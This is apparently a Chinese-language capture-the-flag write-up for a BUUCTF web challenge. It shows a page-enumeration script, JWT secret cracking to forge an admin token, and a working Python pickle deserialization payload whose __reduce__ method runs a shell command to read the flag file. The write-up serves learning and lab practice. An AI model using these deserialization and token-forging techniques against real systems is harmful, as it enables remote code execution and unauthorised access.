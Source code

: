 ### JWT 破解

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67d81a8988c538a9b5bff794.png)

打开网页给出提示

![](https://pic1.imgdb.cn/item/67d81abb88c538a9b5bff798.png)

网页太多了，用脚本去找

```python
import requests

url="http://30b74212-bc6f-465c-8b60-d9aeaa215b75.node4.buuoj.cn:81/shop?page="
 
for i in range(0,2000):
    print(i)
    r=requests.get( url + str(i) )
    if 'lv6.png' in r.text:
        print (i)
        break
```

![](https://pic1.imgdb.cn/item/67d81af488c538a9b5bff79e.png)

找到后购买钱不够，修改前端代码的折扣

![](https://pic1.imgdb.cn/item/67d81b1388c538a9b5bff7a3.png)

购买后显示只能 admin 访问

![](https://pic1.imgdb.cn/item/67d81b2188c538a9b5bff7a5.png)

查看 Cookies 发现有 JWT

![](https://pic1.imgdb.cn/item/67d81b7388c538a9b5bff7ad.png)

使用工具破解密钥

![](https://pic1.imgdb.cn/item/67d81cb888c538a9b5bff7e4.png)

去在线网站生成 admin 的 JWT

![](https://pic1.imgdb.cn/item/67d81d1c88c538a9b5bff7f4.png)

替换掉刷新网页

![](https://pic1.imgdb.cn/item/67d81d0c88c538a9b5bff7f3.png)

点击后没反应，查看源代码有压缩文件

![](https://pic1.imgdb.cn/item/67d81d6788c538a9b5bff824.png)

下载后拿到源码

```python
import tornado.web
from sshop.base import BaseHandler
import pickle
import urllib
 
 
class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')
 
    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

become 参数存在 Pickle 反序列化漏洞

```python
import pickle
import urllib
import commands

# commands.getoutput 是一个函数，用于执行系统命令并返回输出
class Try(object):
    def __reduce__(self):
        return (commands.getoutput, ('cat /flag.txt',))


a = Try()
print(urllib.quote(pickle.dumps(a)))
```

替换为脚本生成的序列化代码拿到 flag

![](https://pic1.imgdb.cn/item/67d8209a88c538a9b5bff911.png)

